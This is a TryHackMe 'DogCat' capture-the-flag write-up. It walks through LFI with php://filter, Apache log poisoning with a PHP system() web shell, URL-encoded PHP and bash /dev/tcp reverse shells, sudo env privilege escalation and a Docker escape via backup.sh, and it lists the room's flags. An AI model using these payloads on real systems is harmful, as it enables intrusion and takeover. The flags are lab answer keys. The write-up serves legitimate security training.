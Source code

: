 ```yaml
---
title: TryHackMe - DogCat
description: My writeup on DogCat box.
categories:
 - tryhackme
tags: tryhackme LFI php logpoisoning sudo env docker
---
```


![](https://i.imgur.com/otcW2ZH.png)

## Box Stats

| Box Info      | Details       |
| ------------- |:-------------:|
| Box Name :    | **DogCat**  |
| Difficulty :  | **Medium**             |
| Play :    | [DogCat](https://tryhackme.com/room/dogcat){:target="_blank"}      |
| Recommended : | Yes :heavy_check_mark:      |

## Summary

This was an awesome box, with lot of LFI, php analysis etc i'll not say much, let's start!

## Enumeration/Reconnaissance

Now as always let’s continue with a nmap scan.

```
$ ip=10.10.157.103
$ nmap -sC -sV -oN nmap/dogcat.thm $ip
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-30 22:20 EET
Nmap scan report for 10.10.157.103 (10.10.157.103)
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
```

Once we visit the website, we can see 2 buttons `A dog` & `A cat`.

![](https://i.imgur.com/DuBz9Wy.png)

We click a random one and we can see the URL goes like that `?view=dog`, that's probably LFI. LFI (Local File Inclusion) allow us to read files on the victim machine. The most common way to test that is by using the `/etc/passwd` file. Let's try it.

`http://$ip/?view=/etc/passwd` -> This gives an error `Sorry, only dogs or cats are allowed.` Let's try to add dog or cat in the URL.

`http://$ip/?view=dog/etc/passwd` -> This gives an error `Warning: include(dog/etc/passwd.php)` We can see it adds `.php` in all files, we can't read `/etc/passwd` but we can read the `index.php` source code! When we have LFI we can’t read php files because they get executed by the webserver. So we will do a trick to bypass that using base64.

Also here we have to apply a directory traversal attack `../`

```
$ curl -s "http://$ip/?view=php://filter/convert.base64-encode/resource=dog../../index"
PCFET0NUWVBF..data...go8L2h0bWw+Cg==
```

After we decode it we have the source code:

```php
function containsStr($str, $substr) {
        return strpos($str, $substr) !== false;
      }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
```

Now we have to do source code analysis. The most important thing in the source code is this variable:

```php
$ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
```

We have a `ternary operator`, is an alternative method for using if-else statements. The syntax goes like that:

`(Condition) ? (Statement1) : (Statement2);`

We have the `$_GET`, is a PHP super global variable for collecting form data. For example `$_GET['pwn']` in URL will be like that `?pwn=`

So it translates to `ext` parameter should be equal to the `ext` GET parameter, else we it use `.php`

So we just have to add `&ext` to URL to read files.

```
$ curl -s "http://$ip/?view=dog../../../../../etc/passwd&ext"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

## Shell as www-data

Now we need to turn LFI into RCE. We will do apache log poisoning but to do that we need to be able to read log files. Let's try to load apache `access.log` file. `/var/log/apache2/access.log`

![](https://i.imgur.com/CnTRnmL.png)

Perfect, now let's fire up burp. Capture the request and inject this php code inside user-agent `<?php system($_GET['pwn']); ?>` also add to URL the parameter `&pwn=whoami`

![](https://i.imgur.com/1u7LGtU.png)

We have RCE!

```
$ curl -s "http://$ip/?view=dog../../../../../var/log/apache2/access.log&ext&pwn=whoami" | grep "www-data"
10.9.234.105 - - [30/Dec/2020:21:23:34 +0000] "GET /?view=dog../../../../../var/log/apache2/access.log&ext&pwn=whoami HTTP/1.1" 200 1991 "-" "Mozilla/5.0 www-data
```

Now we can simply send our reverse shell (remember to URL encode!)

```
$ curl -s "http://$ip/?view=dog../../../../../var/log/apache2/access.log&ext&pwn=php%20-r%20%27%24sock%3Dfsockopen%28%22<tun0 ip>%22%2C<port>%29%3Bexec%28%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27"
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's search for the flags:

```
$ find / -name "flag*" 2>/dev/null
/var/www/html/flag.php
/var/www/flag2_QMW7JvaY2LvK.txt
```

Flag 1: `THM{Th1s_1s_N0t_4_Catdog_ab67edfa}`

Flag 2: `THM{LF1_t0_RC3_aec3fb}`

## Shell as root

Now privesc to root is simply, let's just check `sudo -l`:

```
$ sudo -l
Matching Defaults entries for www-data on bf18790496b8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on bf18790496b8:
    (root) NOPASSWD: /usr/bin/env
```

We can run `env` as root, easy to exploit.

```
$ sudo env /bin/bash
whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Flag 3: `THM{D1ff3r3nt_3nv1ronments_874112}`

Hm.. we miss 1 flag tho. If we check the system root directory, we can see that we're inside docker container.

```
root@bf18790496b8:/# ls -la
total 80
drwxr-xr-x   1 root root 4096 Dec 30 20:19 .
drwxr-xr-x   1 root root 4096 Dec 30 20:19 ..
-rwxr-xr-x   1 root root    0 Dec 30 20:19 .dockerenv
...data...
```

We can also check that by the container id in the hostname.

```
root@bf18790496b8:/# hostname
bf18790496b8
```

Checking around the system i found under `/opt/backups` a `backup.sh` file, seems like is running in the background. Let's add a reverse shell in.

```
root@bf18790496b8:/opt/backups# echo "bash -c 'bash -i >& /dev/tcp/<tun0 ip>/6666 0>&1'" > backup.sh
```

```
$ nc -lvp 6666
listening on [any] 6666 ...

root@dogcat:~# whoami;id
root
uid=0(root) gid=0(root) groups=0(root)
```

Flag 4: `THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}`

## Thank You

Thank you for taking the time to read my writeup. If you don't understand something from the writeup or want to ask me something feel free to contact me through discord(0xatom#8707) or send me a message through twitter [0xatom](https://twitter.com/0xatom){:target="_blank"}

Until next time keep pwning hard! :fire:
